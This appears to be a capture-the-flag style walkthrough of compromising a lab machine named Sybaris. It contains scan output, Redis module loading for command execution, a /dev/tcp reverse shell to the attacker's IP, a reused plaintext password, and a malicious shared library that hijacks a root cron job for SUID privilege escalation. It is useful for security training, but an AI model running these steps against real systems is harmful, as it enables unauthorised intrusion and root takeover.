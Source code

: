 ## NMAP
```
sudo nmap -sC -sV -p- 192.168.68.93                                                                  
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-18 11:55 CDT
Nmap scan report for 192.168.68.93
Host is up (0.044s latency).
Not shown: 65519 filtered tcp ports (no-response)
PORT      STATE  SERVICE   VERSION
20/tcp    closed ftp-data
21/tcp    open   ftp       vsftpd 3.0.2
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.49.68
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 0        0               6 Apr 01  2020 pub [NSE: writeable]
22/tcp    open   ssh       OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 2194ded36964a84da8f0b50aeabd02ad (RSA)
|   256 674245198bf5f9a5a4cffb8748a266d0 (ECDSA)
|_  256 f3e229a3411e761eb1b746dc0bb99177 (ED25519)
53/tcp    closed domain
80/tcp    open   http      Apache httpd 2.4.6 ((CentOS) PHP/7.3.22)
| http-robots.txt: 11 disallowed entries 
| /config/ /system/ /themes/ /vendor/ /cache/ 
| /changelog.txt /composer.json /composer.lock /composer.phar /search/ 
|_/admin/
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.6 (CentOS) PHP/7.3.22
|_http-generator: HTMLy v2.7.5
|_http-title: Sybaris - Just another HTMLy blog
6379/tcp  open   redis     Redis key-value store 5.0.9
10091/tcp closed unknown
10092/tcp closed unknown
10093/tcp closed unknown
10094/tcp closed unknown
10095/tcp closed unknown
10096/tcp closed unknown
10097/tcp closed unknown
10098/tcp closed unknown
10099/tcp closed unknown
10100/tcp closed itap-ddtp
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 132.15 seconds
                                                                                                                     
┌──(kali㉿kali)-[~/OPG]
└─$ nmap --script redis-info -sV -p 6379 192.168.68.93                                                      
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-18 12:06 CDT
Nmap scan report for 192.168.68.93
Host is up (0.045s latency).

PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.9 (64 bits)
| redis-info: 
|   Version: 5.0.9
|   Operating System: Linux 3.10.0-1127.19.1.el7.x86_64 x86_64
|   Architecture: 64 bits
|   Process ID: 909
|   Used CPU (sys): 2.468947
|   Used CPU (user): 1.900090
|   Connected clients: 1
|   Connected slaves: 0
|   Used memory: 562.22K
|   Role: master
|   Bind addresses: 
|     0.0.0.0
|   Client connections: 
|_    192.168.49.68

```

Logged into FTP we have a blank ftp pub directory. It is likely we can use this later for some kindof file upload. I see we have a redis server. We can login to Redis using redis-cli -h IP

Logging in, we have no need for credentials. I was able to find this below.
https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#load-redis-module

I compiled the file on my system and upload using FTP.

Once uploaded, I loaded the module by running the following:
```sh
redis-cli -h 192.168.165.93
192.168.165.93:6379> set working dir /var/ftp
(error) ERR syntax error
192.168.165.93:6379> set working dir /etc/ftp
(error) ERR syntax error
192.168.165.93:6379> module load /var/ftp/pub/module.so
OK
192.168.165.93:6379> module list
1) 1) "name"
   2) "system"
   3) "ver"
   4) (integer) 1
192.168.165.93:6379> system.exec "whoami"
"pablo\n"
192.168.165.93:6379> 
```

I now have remote commands that I can run.

`sh -i >& /dev/tcp/192.168.49.68/21 0>&1`

Interesting things I found in linpeas
```
Vulnerable to CVE-2021-4034

/usr/bin/lesspipe.sh                                                                                                
/usr/bin/gettext.sh
/usr/bin/setup-nsssysinit.sh

/var/www/html/config/users/pablo.ini
/var/log/redis

```

Found pablo.ini to have this:
```
sh-4.2$ cat pablo.ini
cat pablo.ini
password = PostureAlienateArson345
role = admin
```
He re-used his password so we have ssh access outside of redis.

Looking over linpeas again, I was able to see a cron job:
```sh
/var/spool/anacron:
total 12
drwxr-xr-x. 2 root root 63 Sep  4  2020 .
drwxr-xr-x. 8 root root 87 Sep  4  2020 ..
-rw-------. 1 root root  9 Jan 23 05:26 cron.daily
-rw-------. 1 root root  9 Mar 26 19:41 cron.monthly
-rw-------. 1 root root  9 Mar 26 19:41 cron.weekly
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
LD_LIBRARY_PATH=/usr/lib:/usr/lib64:/usr/local/lib/dev:/usr/local/lib/utils
MAILTO=""


  *  *  *  *  * root       /usr/bin/log-sweeper
```

Running log-sweeper we get the following:
`/usr/bin/log-sweeper: error while loading shared libraries: utils.so: cannot open shared object file: No such file or directory`

We need to use the LD_LIBRARY path and find a writeable location. 

I was able to find the following as writeable:
`/usr/local/lib/dev`

I located the following code and set it up to send a response back once completed.

```utils.c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>

static void sybaris() __attribute__((constructor));
void sybaris() {
	unsetenv("LD_LIBRARY_PATH");
	setresuid(0,0,0);
	system("chmod +s /usr/bin/find");
	system("ping 192.168.49.68 -c 2");
}
```

Started tcpdump on the tun0 and waited to see the response. Here is what I recieved after running below.

```tcpdump
21:53:43.427158 IP 192.168.68.93 > 192.168.49.68: ICMP echo request, id 27450
21:53:43.427175 IP 192.168.49.68 > 192.168.68.93: ICMP echo reply, id 27450, 
21:53:44.328011 IP 192.168.68.93 > 192.168.49.68: ICMP echo request, id 27450
21:53:44.328023 IP 192.168.49.68 > 192.168.68.93: ICMP echo reply, id 27450,
```

Compiled before uploading:

`gcc --shared -o utils.so -fPIC utils.c`

Started a python webserver to wget it to the target.

```
[pablo@sybaris dev]$ wget http://192.168.49.68/utils.so
--2023-03-26 22:50:43--  http://192.168.49.68/utils.so
Connecting to 192.168.49.68:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 15488 (15K) [application/octet-stream]
Saving to: ‘utils.so’

100%[========================================================================

2023-03-26 22:50:44 (285 KB/s) - ‘utils.so’ saved [15488/15488]

[pablo@sybaris dev]$ ls
utils.so
[pablo@sybaris dev]$ /usr/bin/log-sweeper
/usr/bin/log-sweeper: error while loading shared libraries: utils.so: cannot r directory
[pablo@sybaris dev]$ /usr/bin/log-sweeper
/usr/bin/log-sweeper: error while loading shared libraries: utils.so: cannot r directory
[pablo@sybaris dev]$ ls -la /usr/bin/find
-rwsr-sr-x. 1 root root 199304 Oct 30  2018 /usr/bin/find
[pablo@sybaris dev]$ /usr/bin/find . -exec /bin/sh -p \; -quit
sh-4.2# whoami
root
sh-4.2# cd /root
sh-4.2# ls
proof.txt
sh-4.2# cat proof.txt
```
